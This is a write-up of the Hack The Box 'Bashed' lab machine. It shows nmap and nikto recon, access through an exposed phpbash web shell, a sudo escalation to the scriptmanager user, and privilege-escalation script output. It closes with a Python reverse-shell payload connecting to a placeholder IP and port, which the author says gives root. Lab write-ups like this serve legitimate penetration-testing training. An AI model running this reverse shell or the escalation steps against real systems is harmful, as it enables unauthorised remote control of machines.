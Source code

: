 Name: Bashed
Date: 03/05/2022
Difficulty: Easy
Description: N/a
Better Description: Vi the final boss 
Goals: TJ Null OSCP number One
Learnt: Sometimes metasploit multi/handler is not the answer. 

## Recon

```bash
ping 10.129.107.29                  
PING 10.129.107.29 (10.129.107.29) 56(84) bytes of data.
64 bytes from 10.129.107.29: icmp_seq=1 ttl=63 time=42.1 ms
64 bytes from 10.129.107.29: icmp_seq=2 ttl=63 time=37.5 ms
64 bytes from 10.129.107.29: icmp_seq=3 ttl=63 time=40.9 ms
^C
--- 10.129.107.29 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 37.517/40.139/42.051/1.917 ms

nmap -F 10.129.107.29               
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-03 16:44 BST
Nmap scan report for 10.129.107.29
Host is up (0.046s latency).
Not shown: 99 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds

nmap -sC -sV -T 4 -p- 10.129.107.29 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-03 16:45 BST
Nmap scan report for 10.129.107.29
Host is up (0.051s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.29 seconds
```

Nikto

```bash
nikto -h 10.129.107.29
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.107.29
+ Target Hostname:    10.129.107.29
+ Target Port:        80
+ Start Time:         2022-05-03 16:47:01 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ Server may leak inodes via ETags, header found with file /, inode: 1e3f, size: 55f8bbac32f80, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /dev/: Directory indexing found.
+ OSVDB-3092: /dev/: This might be interesting...
+ OSVDB-3268: /php/: Directory indexing found.
+ OSVDB-3092: /php/: This might be interesting...
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7916 requests: 0 error(s) and 17 item(s) reported on remote host
+ End Time:           2022-05-03 16:55:02 (GMT1) (481 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
                    
```

While nikto was still scanning I went to /dev/ tried the shell.
![one](Screenshots/dev-phpbash-disc.png)

We can get user.txt from /home/arrexel, I then transfered a shell to make stdout easier.
Then got LinEnum:

```bash
[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

So we can just:

```bash
sudo -u scriptmanager /bin/bash
```

Now we are the scriptmanager user. Reran LinEnum and saw nothing exciting. Then linux-exploit-suggester.sh.
```bash
[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},[ ubuntu=16.04 ]{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```

But then I found there is no gcc, cc, clang so this a clear dead-end.

I ran linuxprivchecker.sh a notice  popularity contest.
A Debian's popularity-contest, on a Ubuntu box..
It does these things:

```perl
-u <url>  submit to the given URL (default popcon.debian.org)
```
It did not seem to work. Ran some more scripts
`drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4  2017 scripts`

![bingo](Screenshots/bingo.png)


```python
import socket, subprocesss,os

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("IP", PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh", "-i"])
```

This will give you root.

![root](Screenshots/root.png)
